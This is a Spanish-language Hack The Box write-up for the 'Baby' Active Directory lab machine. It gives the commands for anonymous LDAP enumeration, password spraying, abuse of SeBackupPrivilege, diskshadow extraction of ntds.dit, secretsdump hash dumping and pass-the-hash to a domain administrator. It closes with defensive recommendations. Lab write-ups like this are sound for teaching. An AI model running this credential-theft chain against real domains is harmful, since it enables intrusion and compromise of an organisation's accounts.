# Baby — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Windows (Active Directory)
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Enumeración LDAP anónima · Filtración de contraseña inicial en la descripción de un grupo de AD · Password spraying (`crackmapexec`) · Reset de contraseña caducada (`smbpasswd`) · Evil-WinRM · Abuso de **`SeBackupPrivilege`** (grupo Backup Operators) · **Volume Shadow Copy** (`diskshadow`) → extracción de `ntds.dit` · `secretsdump` → pass-the-hash → SYSTEM

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración LDAP — contraseña inicial filtrada](#2-enumeración-ldap--contraseña-inicial-filtrada)
3. [Acceso inicial — password spraying y reset de contraseña](#3-acceso-inicial--password-spraying-y-reset-de-contraseña)
4. [Obtención de shell](#4-obtención-de-shell)
   - [Escalada de privilegios — SeBackupPrivilege y Shadow Copy](#escalada-de-privilegios--sebackupprivilege-y-shadow-copy)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Flujo de ataque](#7-flujo-de-ataque)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.234.71
```


Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.234.71
```


```bash
enum-nmap AllPorts
```



> 💡 21 puertos abiertos, entre ellos **53, 88, 389, 445, 464, 636, 3268, 3269, 5985 y 9389** — el conjunto clásico de un **controlador de dominio de Active Directory**.

Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49664,49668,57337,57338,57346,57700,57712 -oN Ports 10.129.234.71
```


```
389/tcp open  ldap  Microsoft Windows Active Directory LDAP (Domain: baby.vl, Site: Default-First-Site-Name)
ssl-cert: Subject: commonName=BabyDC.baby.vl
rdp-ntlm-info:
  Target_Name: BABY
  NetBIOS_Domain_Name: BABY
  NetBIOS_Computer_Name: BABYDC
  DNS_Domain_Name: baby.vl
  DNS_Computer_Name: BabyDC.baby.vl
```

> 💡 Dominio **`baby.vl`**, controlador de dominio **`BabyDC`**.

Añadimos el dominio al `/etc/hosts`:



## 2. Enumeración LDAP — contraseña inicial filtrada

Probamos un *bind* anónimo contra LDAP:

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl"
```



El servidor permite la consulta sin credenciales. Filtramos los `dn` para ver la estructura del directorio:

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl" | grep "dn"
```



Dos unidades organizativas con usuarios: `OU=dev` y `OU=it`. Extraemos sus nombres de usuario:

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl" | grep "userPrincipalName"
```



```
Jacqueline.Barnett@baby.vl
Ashley.Webb@baby.vl
Hugh.George@baby.vl
Leonard.Dyer@baby.vl
Connor.Wilkinson@baby.vl
Joseph.Hughes@baby.vl
Kerry.Wilson@baby.vl
Teresa.Bell@baby.vl
```

Buscando más contexto en el volcado LDAP, filtramos por menciones a "password":

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl" | grep "password"
```


```
description: Set initial password to BabyStart123!
```

> 💡 La descripción de un grupo de Active Directory, visible para cualquier usuario sin autenticar, filtra directamente la **política de contraseña inicial** asignada a las cuentas nuevas.

## 3. Acceso inicial — password spraying y reset de contraseña

Guardamos la lista de usuarios y probamos la contraseña filtrada contra todos:


```bash
crackmapexec smb 10.129.234.71 -u usernames -p 'BabyStart123!'
```


```
[-] baby.vl\Jacqueline.Barnett:BabyStart123! STATUS_LOGON_FAILURE
...
[-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
```

> 💡 Un único usuario (**`Caroline.Robinson`**, no listado inicialmente por LDAP) responde `STATUS_PASSWORD_MUST_CHANGE` en vez de `STATUS_LOGON_FAILURE` — la contraseña es correcta, pero la cuenta nunca se usó y Windows exige cambiarla antes de autenticar.

Forzamos el cambio de contraseña:

```bash
smbpasswd -U BABY/caroline.robinson -r baby.vl
```


Validamos la nueva contraseña:

```bash
crackmapexec smb 10.129.234.71 -u usernames -p 'Temporal01.'
```


```
[+] baby.vl\Caroline.Robinson:Temporal01.
```

## 4. Obtención de shell

```bash
evil-winrm -i baby.vl -u caroline.robinson -p 'Temporal01.'
```


```
dir
```



`user.txt` (34 bytes) confirmado en el escritorio — primera flag.

### Escalada de privilegios — SeBackupPrivilege y Shadow Copy

```
whoami /all
```


```
BUILTIN\Backup Operators
SeBackupPrivilege   Back up files and directories   Enabled
SeRestorePrivilege  Restore files and directories    Enabled
```



> 💡 **`SeBackupPrivilege`** permite leer cualquier archivo o directorio del sistema, **ignorando las ACL de NTFS** — pensado para que un software de backup pueda copiar cualquier fichero sin necesidad de ser Administrador.

Volcamos los hives SAM y SYSTEM locales (posible gracias a `SeBackupPrivilege`):

```
reg save hklm\sam .\sam
reg save hklm\system .\system
```



```
download sam
download system
```



```bash
secretsdump.py -sam sam -system system LOCAL
```



```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
```

> 💡 Este es el hash del **Administrator local** de la máquina, no el de dominio — no es la credencial que necesitamos para comprometer el controlador de dominio por completo.

### Extracción de `ntds.dit` con Shadow Copy

Creamos un script de `diskshadow` para exponer una copia de sombra del volumen `C:`:

```bash
nano raj.dsh
unix2dos raj.dsh
```



```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```



> 🛠️ **`unix2dos`** — convierte los finales de línea a formato Windows (CRLF); `diskshadow` solo acepta scripts con ese formato.

Subimos el script:

```
upload raj.dsh
```



```
mkdir C:\Temp
mv raj.dsh C:\Temp
```


Ejecutamos `diskshadow`:

```
diskshadow /s raj.dsh
```


```
The shadow copy was successfully exposed as z:\.
```

Copiamos `ntds.dit` desde la copia de sombra (el fichero original está bloqueado por estar en uso por el DC):

```
robocopy /b z:\windows\ntds . ntds.dit
```




```
download ntds.dit
```


Con `ntds.dit` y el hive `SYSTEM` ya descargados, volcamos todas las credenciales del dominio:

```bash
secretsdump.py -ntds ntds.dit -system system LOCAL
```


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
krbtgt:502:...
baby.vl\Jacqueline.Barnett:1104:...
...
```

Pass-the-hash con el hash de **Administrator** de dominio:

```bash
evil-winrm -i baby.vl -u Administrator -H 'ee4457ae59f1e3fbd764e33d9cef123d'
```


```
dir
```

`root.txt` confirmado en el escritorio de Administrator.

## 5. Post-explotación y flags

Shell de Administrator confirmada en el controlador de dominio — compromiso total acreditado. Las capturas disponibles no incluyen la lectura explícita del contenido de `user.txt` ni `root.txt`, por lo que no se documentan aquí sus valores.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Enumeración LDAP anónima habilitada en el DC | Puerto 389 | Filtración de la estructura del directorio y nombres de usuario sin credenciales |
| Política de contraseña inicial expuesta en la descripción de un grupo de AD | Atributo `description` | Permite probar esa contraseña contra todas las cuentas del dominio |
| Cuenta de dominio nunca activada, con la contraseña inicial sin cambiar | `Caroline.Robinson` | Acceso inicial válido mediante password spraying |
| Cuenta de bajo privilegio miembro de `Backup Operators` | `Caroline.Robinson` | `SeBackupPrivilege`/`SeRestorePrivilege` permiten leer cualquier fichero del sistema saltándose las ACL |
| Posibilidad de generar una copia de volumen (Shadow Copy) y extraer `ntds.dit` de un archivo en uso | Servicio VSS (`diskshadow`) | Volcado completo de credenciales de dominio sin necesidad de reiniciar servicios ni usar herramientas de terceros |

## Recomendaciones defensivas

- Deshabilitar la enumeración LDAP anónima en el controlador de dominio.
- Nunca incluir contraseñas, aunque sean "iniciales" o temporales, en atributos legibles como `description` de objetos de AD.
- Forzar la activación y cambio de contraseña de toda cuenta nueva en un plazo razonable; auditar periódicamente cuentas con `pwdLastSet` sin modificar.
- Restringir estrictamente la pertenencia al grupo `Backup Operators` — equivale, en la práctica, a poder leer (y restaurar) cualquier archivo del sistema, incluidos los hives de registro y `ntds.dit`.
- Monitorizar el uso de `diskshadow`, `vssadmin` y accesos a copias de sombra del volumen del sistema, especialmente combinados con lectura de `ntds.dit`.
- Rotar las credenciales de dominio si se sospecha que `ntds.dit` pudo haber sido extraído.

## 7. Flujo de ataque



> 💡 **El porqué de cada paso:** el bind LDAP anónimo es el primer chequeo obligatorio en cualquier DC — y conviene revisar no solo los objetos de usuario, sino también descripciones de grupos y otros atributos de texto libre, donde a menudo quedan políticas o contraseñas olvidadas. El código `STATUS_PASSWORD_MUST_CHANGE` (distinto de `STATUS_LOGON_FAILURE`) es la señal clave de que una contraseña es correcta pero la cuenta exige un cambio antes de autenticar — fácil de pasar por alto si solo se mira "éxito/fallo". Una vez dentro, `SeBackupPrivilege` merece siempre revisión: si el volcado local no basta (el hash de Administrator local puede estar deshabilitado o no ser el objetivo), el siguiente paso lógico es generar una Shadow Copy para acceder a `ntds.dit`, el único camino para obtener **todas** las credenciales del dominio sin depender de vulnerabilidades adicionales.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
